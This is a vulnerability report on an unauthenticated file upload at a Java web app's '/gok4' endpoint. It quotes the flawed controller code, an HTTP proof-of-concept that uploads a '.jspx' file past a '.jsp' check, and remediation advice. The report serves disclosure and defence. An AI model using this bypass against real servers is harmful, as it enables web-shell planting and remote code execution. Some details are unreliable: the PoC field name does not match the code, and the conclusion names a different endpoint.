


# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
The application allows unauthenticated users to upload files via the `/gok4` endpoint. The uploaded files are not properly validated, which can lead to remote code execution (RCE) if a malicious file is uploaded.

### Affected Endpoint:
`/gok4`

### Vulnerability Type:
Unauthenticated RCE

### Vulnerable Code:
```java
public String go(HttpServletRequest request, HttpServletResponse response) {
    try {
        String referer = request.getHeader("referer");
        Pattern p = Pattern.compile("([a-z]*:(//[^/?#]+)?)?", 2);
        Matcher mathcer = p.matcher(referer);
        if (mathcer.find()) {
            String callBackPath = mathcer.group();
            MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
            MultipartFile imgFile = multipartRequest.getFile("fileupload");
            if (imgFile.getName().endsWith(".jsp")) {
                return null;
            }

            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveImage(imgFile, paths);
            String url = "redirect:" + callBackPath + "/kindeditor/plugins/image/redirect.html?s=" + json.toString() + "#" + json.toString();
            logger.info("++++gok4 return:" + url);
            return url;
        }
    } catch (Exception var12) {
        logger.error("gok4 error", var12);
    }

    return null;
}
```

### Proof of Concept (PoC):
```http
POST /gok4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:

An attacker can exploit this vulnerability to upload a JSP file with a different extension (e.g., `.jspx`). This file can contain malicious code, which, when executed by the server, can lead to remote code execution. This allows the attacker to execute arbitrary commands on the server, potentially compromising the entire system.

### Recommendation:

1. **File Type Validation**: Implement strict file type validation to ensure only allowed file types are uploaded.
2. **Authentication and Authorization**: Ensure that file upload functionality is restricted to authenticated and authorized users.
3. **File Content Scanning**: Use antivirus or antimalware tools to scan the content of uploaded files for potential threats.
4. **File Storage**: Store uploaded files outside the web root to prevent direct access via the web server.

### Conclusion:

The unauthenticated file upload functionality in the `/imgk3` endpoint poses a significant security risk, allowing attackers to execute arbitrary code on the server. It is crucial to implement proper validation, authentication, and security measures to mitigate this vulnerability.

### References:

- [OWASP File Upload Guidelines](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)